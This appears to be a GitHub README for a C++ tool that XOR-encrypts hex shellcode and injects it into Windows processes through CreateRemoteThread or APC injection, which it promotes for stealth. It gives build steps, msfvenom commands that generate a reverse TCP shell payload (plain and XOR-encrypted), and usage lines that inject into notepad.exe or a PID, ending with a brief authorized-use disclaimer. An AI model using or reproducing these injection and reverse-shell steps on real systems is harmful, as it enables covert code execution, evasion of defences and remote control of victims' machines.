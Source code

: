 # 🔥 Memory Manipulation Utility 🔥

> A powerful C++ tool to read, XOR‑encrypt/decrypt, and inject hex shellcode into Windows processes via CreateRemoteThread or APC injection. 🛠️💉

---

## 🚀 Features

- 📂 **Hex Payload I/O**: Read and write hex‑encoded shellcode files
- 🔑 **XOR Encryption/Decryption**: Secure your payload at rest with a key, decrypt in-memory just before execution
- 💉 **Injection Methods**:
  - **CreateRemoteThread** injection
  - **APC (Asynchronous Procedure Call)** injection for stealth
- 🔍 **Payload Validation**:
  - PE header check (MZ)
  - Entropy analysis to detect invalid data
- 🎛️ **Flexible CLI**: Intuitive options for encryption, decryption, and injection

---

## 📋 Requirements

- Windows OS (x64)
- Visual Studio or a compatible C++17 compiler
- **msfvenom** (part of Metasploit) for shellcode generation

---

## ⚙️ Installation & Build

1. Clone this repo:
   ```bash
   git clone https://github.com/ShorterKing/Hexinjector-XOR.git
   cd Hexinjector-XOR
   ```
2. Build with Visual Studio or via CLI:
   ```powershell
   cl /std:c++17 /O2 main.cpp /link /out:memutil.exe
   ```

---

## 🐍 Generating Hex Shellcode with msfvenom

Generate a reverse TCP shell (unencrypted):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f hex -o payload.hex
```

Generate and XOR-encrypt in one step:

```bash
msfvenom -p windows/x64/shell_reverse_tcp --encrypt xor --encrypt-key hacker LHOST=127.0.0.1 LPORT=4444 -f hex -o payload_enc.hex
```

---

## 💻 Usage

```bash
memutil.exe [options]
```

| Option | Description                                                      | Example                                                        |
|:------:|:-----------------------------------------------------------------|:---------------------------------------------------------------|
| `-i`   | Input hex payload file                                           | `-i payload.hex`                                               |
| `-p`   | Target process PID or executable name                            | `-p notepad.exe` or `-p 1234`                                  |
| `-x`   | XOR key for encryption/decryption                                | `-x secret123`                                                 |
| `-e`   | **Encrypt** mode: specify output file (will not inject)          | `-e encrypted_payload.hex`                                     |
| `-a`   | Use **APC** injection instead of CreateRemoteThread              | `-a`                                                           |
| `-h`   | Display help                                                     | `-h`                                                           |


### 🔒 Encrypt Payload (no injection)

```bash
memutil.exe -i payload.hex -e payload_enc.hex -x myKey
```

- Reads `payload.hex` ➡️ XOR‑encrypts with key `myKey` ➡️ writes `payload_enc.hex`

### 💉 Inject Payload

1. **Raw** payload into Notepad:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe
   ```
2. **Encrypted** payload (decrypt & inject):
   ```bash
   memutil.exe -i payload_enc.hex -p 1234 -x myKey
   ```
3. **APC** injection:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe -a
   ```

---

## 🔍 How It Works

1. **ReadHexFile**: Parses `.hex` into a byte vector
2. **XORData**: Applies XOR with key (same function for encrypt/decrypt)
3. **ValidatePayload**: Checks PE signature (`0x4D 0x5A`) and entropy
4. **Injection**:
   - **CreateRemoteThread**: Standard remote thread creation
   - **APC**: Queues an Asynchronous Procedure Call on a target thread for stealth

---

## 📝 Example Output

```
[+] Read 512 bytes from payload.hex
[+] XOR decryption applied with key: myKey
[+] Payload appears to be a valid PE executable
[+] Resolved process notepad.exe to ID: 4321
[+] Successfully injected payload into process 4321
[+] Operation completed successfully
```

---

## ⚠️ Disclaimer

> **For educational and authorized penetration testing only!**
> Misuse of this tool against systems without permission is illegal.

---

## 🙏 Contributions

Feel free to ⭐️ the repo and submit PRs to improve functionality! 🛠️

---

© 2025 Akshat Singh • [Apache License 2.0](LICENSE)

